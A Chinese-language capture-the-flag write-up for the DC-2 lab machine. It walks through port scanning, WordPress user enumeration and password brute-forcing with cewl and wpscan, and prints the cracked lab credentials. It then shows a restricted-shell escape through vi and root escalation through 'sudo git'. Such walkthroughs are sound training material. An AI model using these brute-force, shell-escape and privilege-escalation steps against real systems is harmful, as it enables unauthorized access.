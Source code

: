 # DC-2

## 端口扫描

```
nmap -sC -sV -Pn 192.168.56.117
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 08:22 EDT
Nmap scan report for 192.168.56.117
Host is up (0.00046s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
MAC Address: 08:00:27:71:D4:1C (Oracle VirtualBox virtual NIC)
```

设置hosts文件

```
192.168.56.117 dc-2
```

直接去看web页面

## 漏洞发现和利用

找到flag1

```
Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.
```

发现关键字`cewl`，cewl可以收集web页面的单词

```
cewl http://dc-2 -w pass.txt
```

### 用`wpscan`枚举一下用户

```
wpscan --url http://dc-2 -e u
```

然后爆破

```
wpscan --url http://dc-2 -U user.txt -P pass.txt
```

```
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

登录jerry找到flag2

```
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

> 如果wordpress不能利用了，那就换一条路

提示说wordpess没有漏洞了，那就再用nmap扫一下其他端口

```
nmap -p- 192.168.56.117
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
```

用sV选项扫描

```
nmap -p 7744 -sV 192.168.56.117
```

```
PORT     STATE SERVICE VERSION
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 08:00:27:71:D4:1C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

其实他就是SSH服务

## SSH登录

使用tom登录

### 使用`vi`进行绕过rbash

打开vi

```
set shell=/bin/bash
shell
```

```
export PATH=$PATH:/bin
export PATH=$PATH:/usr/bin
```

**`flag3.txt`**

```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

切换到jerry

```
su - jerry
```

找到`flag4`

```
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

## 提权

最后就是要提权到root了

```
sudo -l
```

```
(root) NOPASSWD: /usr/bin/git
```

### git提权

可以在下面网站找到sudo提权方法

[GTFOBins](https://gtfobins.github.io/)

![image-20240416215029798](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416215029798.png)

```
sudo git -p help config
!/bin/sh
```

拿到最后的`final-flag.txt`

![image-20240416215230308](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240416215230308.png)

## 总结

> 1.这个靶机分5个flag，每一步都给了一定的提示，思路比较明确
>
> 2.`wpscan`专门扫描`wordpress`
>
> 3.绕过`rbash`的方法，[rbash逃逸方法简述](https://blog.csdn.net/qq_43168364/article/details/111830233)
>
> 4.`git`进行提权,`sudo git -p help config`,然后输入`!/bin/bash`


